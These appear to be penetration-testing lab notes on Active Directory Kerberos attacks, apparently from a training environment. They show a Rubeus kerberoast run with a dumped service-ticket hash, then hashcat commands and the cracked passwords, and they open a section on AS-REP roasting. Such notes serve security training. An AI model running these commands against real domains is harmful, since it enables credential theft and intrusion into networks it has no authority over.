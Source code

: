 
## kerberoasting attack

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

- IF service has a registered SPN = roasting possible
- password strength, account privileges of cracked account
- use Bloodhound to find all roast-able accounts

```
cd \Downloads
Rubeus.exe kerberoast      # dumps Kerberos hash of any roastable users

[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts. Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts
[*] Searching for current domain for kerberoastable users
[*] Total kerberoastable users: 2

[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local 
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111     
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER
-1/SQLService.CONTROLLER.local:30111*$$247F6A95197971207A160692371F98BB$0F701D7A0
C04756576784DE76FC6EA4063896F ...

copy hash into a .txt file to be used with hashcat on attacker machine

hashcat -m 13100 -a0 hash.txt Pass.txt        # SQL Service

MYPassword123#


hashcat -m 13100 -a0 hash2.txt Pass.txt        # HTTP Service

Summer2020


```

- modified rockyou.txt wordlist -- https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt


## AS-REP roasting

 AS-REP Roasting dumps the `krbasrep5` hashes of user accounts that have Kerberos pre-authentication disabled

Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.
